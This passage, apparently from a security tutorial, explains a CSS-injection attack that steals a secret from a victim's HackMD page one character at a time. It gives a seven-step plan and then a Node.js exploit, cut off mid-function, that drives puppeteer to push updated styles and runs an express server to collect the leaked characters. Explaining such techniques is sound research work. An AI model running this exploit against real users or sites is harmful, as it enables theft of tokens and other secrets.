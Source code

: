 1. Prepare the style to steal the first character and insert it into HackMD
2. The victim opens the page
3. The server receives the request for the first character
4. Update the HackMD content from the server and switch to the payload to steal the second character
5. The victim's page is updated in real-time and loads the new style
6. The server receives the request for the second character
7. Repeat until all characters are stolen

The simple diagram is as follows:

![flow](/img/css-injection-1/p4.png)

The code is as follows:

``` js
const puppeteer = require('puppeteer');
const express = require('express')

const sleep = ms => new Promise(resolve => setTimeout(resolve, ms));

// Create a hackMD document and let anyone can view/edit
const noteUrl = 'https://hackmd.io/1awd-Hg82fekACbL_ode3aasf'
const host = 'http://localhost:3000'
const baseUrl = host + '/extract?q='
const port = process.env.PORT || 3000

;(async function() {
  const app = express()
  const browser = await puppeteer.launch({
    headless: true
  });
  const page = await browser.newPage();
  await page.setViewport({ width: 1280, height: 800 })
  await page.setRequestInterception(true);

  page.on('request', request => {
    const url = request.url()
    // cancel request to self
    if (url.includes(baseUrl)) {
      request.abort()
    } else {
      request.continue()
    }
  });
  app.listen(port, () => {
    console.log(`Listening at http://localhost:${port}`)
    console.log('Waiting for server to get ready...')
    startExploit(app, page)
  })
})()

async function startExploit(app, page) {
  let currentToken = ''
  await page.goto(noteUrl + '?edit');
  
  // @see: https://stackoverflow.com/questions/51857070/puppeteer-in-nodejs-reports-error-node-is-either-not-visible-or-not-an-htmlele
  await page.addStyleTag({ content: "{scroll-behavior: auto !important;}" });
  const initialPayload = generateCss()
  await updateCssPayload(page, initialPayload)
  console.log(`Server is ready, you can open ${noteUrl}?view on the browser`)

  app.get('/extract', (req, res) => {
    const query = req.query.q
```